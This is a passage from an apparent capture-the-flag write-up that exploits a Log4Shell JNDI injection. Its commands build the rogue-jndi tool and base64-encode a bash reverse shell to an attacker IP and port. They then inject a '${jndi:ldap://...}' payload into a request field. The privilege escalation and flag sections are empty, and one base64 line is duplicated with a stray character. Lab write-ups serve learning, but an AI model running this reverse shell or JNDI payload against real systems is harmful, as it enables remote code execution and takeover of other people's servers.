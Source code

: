```bash
git clone https://github.com/veracode-research/rogue-jndi  
cd rogue-jndi  
mvn package
```

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding  issues.

```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.15.30/4444 0>&1' | base64

```

```bash
YYmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMzAvNDQ0NCAwPiYxCg==
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMzAvNDQ0NCAwPiYxCg==
```

After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of  the ``--command`` option and your ``tun0 IP`` address to the ``--hostname`` option

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMzAvNDQ0NCAwPiYxCg==}| {base64,-d}|{bash,-i}" --hostname "10.10.15.30"


```

```bash
"remember":"${jndi:ldap://10.10.15.30:1389/o=tomcat}",
```



## Privilege Escalation
## Flags
user.text
```bash

```

root.txt
```

```


## Tags
#cve